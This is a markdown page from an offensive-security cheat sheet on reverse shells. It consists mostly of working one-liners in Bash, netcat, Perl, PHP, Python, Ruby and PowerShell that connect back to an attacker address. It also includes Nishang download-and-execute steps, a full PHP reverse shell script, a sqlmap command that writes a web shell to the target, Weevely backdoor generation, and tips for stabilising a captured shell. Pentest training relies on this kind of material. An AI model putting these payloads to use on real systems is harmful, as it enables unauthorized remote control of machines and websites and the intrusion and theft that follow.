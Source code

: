 ```yaml
---
title: Reverse Shell
desc: 
tags: [Linux, Netcat, PrivEsc, Privilege, Reverse, Shell, Windows]
alts: [Linux-Privilege-Escalation, Windows-Privilege-Escalation]
render_with_liquid: false
---
```


## Basic Flow

First of all, open listener in local machine.

```sh
nc -lvnp 4444
```

- **Reverse Shell via Command Line**

    - **Bash**

        ```sh
        bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1
        ```

    - **Netcat OpenBSD**

        ```sh
        rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
        ```

    - **Perl**

        ```sh
        perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        ```

    - **PHP**

        ```sh
        php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
        ```

    - **Python**

        ```sh
        export RHOST="10.0.0.1";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
        ```

        - **Python3 & Bash**

            ```sh
            export RHOST="10.0.0.1";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
            ```

    - **Ruby**

        ```sh
        ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
        ```

    - **PowerShell**

        ```sh
        powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

        powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
        ```

    - **Nishang**

        **[Nishang](https://github.com/samratashok/nishang){:target="_blank"}** is the Offensive PowerShell for red team, penetration testing and offensive security.

        1. **Preparing the Payload in Your Local Machine**

            First off, copy the payload to the current working directory.

            ```sh
            cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
            mv Invoke-PowerShellTcp.ps1 shell.ps1
            ```

            Add the following code to the final line in the payload (shell.ps1).

            ```powershell
            Invoke-PowerShellTcp -Reverse  -IPAddress <your-local-ip> -Port 4444
            ```

        2. **Opening Wev Server in Your Local Machine**

            To download the payload and execute the reverse shell in the target machine, open the web server in your local machine.

            ```sh
            python3 -m http.server 8000
            ```

        3. **Downloading the Payload and Executing Reverse Shell**

            In the target machine, download the local-hosted payload and run reverse shell.

            ```sh
            cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://<your-local-ip>:8000/shell.ps1')
            ```

- **Reverse Shell via Website**

    -  **PHP Reverse Shell**

        [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"} is an awesome payload against a website using PHP.

        ```sh
        wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

        # Edit $ip and $port to your local ip:port in the payload
        ```

        Update $ip and $port in the payload to your local ip and port.

        Then upload the payload, or copy the content and paste to somewhere in the target website directly, and reload the page.

    - **PHP Reverse Shell (without fsockopen, and for FreeBSD)**

        If the target website validates 

        ```php
        <?php
        set_time_limit (0);
        $ip = '10.0.0.1';  // CHANGE THIS
        $port = 4444;      // CHANGE THIS

        // Spawn shell process
        $descriptorspec = array(
        0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
        1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
        2 => array("file", "/tmp/error-output.txt", "a")   // stderr is a pipe that the child will write to
        );

        $cwd = "/tmp";
        $env = array('some_option' => 'aeiou');

        $process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

        if (is_resource($process)) {
            fwrite($pipes[0], 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ip $port >/tmp/f');
            fclose($pipes[0]);

            echo stream_get_contents($pipes[1]);
            fclose($pipes[1]);

            $return_value = proc_close($process);
            echo "command returned $return_value\n";
        }
        ?>
        ```

    - **Upload the Payload using SQLi**

        ```sh
        # req.txt: The request settings file which is saved using Burp Suite
        sqlmap -r req.txt --dbs --random-agent --batch --file-dest=/var/www/html/shell.php --file-write=./shell.php
        ```

    - **Useful Tools**

        - **[Weevely3](https://github.com/epinna/weevely3){:target="_blank"}**

            A web shell generator.

            1. **Generate Backdoor with Password**

                Credentials required.

                ```sh
                weevely generate <password> ./shell.php
                ```

            2. **Upload the Payload to Target Website and Execute Commands**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password> whoami
                ```

            3. **Get a Shell**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password>
                ```

<br />

## Upgrade to a Full Functional Shell

After connecting to target shell with reverse shell, it's recommended to make the shell to be more elegant.

```sh
SHELL=/bin/bash script -q /dev/null
# or
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

The commands below make "your" shell even more perfect.

```sh
Ctrl+z
stty raw -echo;fg
Enter x2
export TERM=xterm
```

<br />

## Pwncat

**[Pwncat](https://pwncat.org/){:target="_blank"}** is a reverse and bind shell handler.
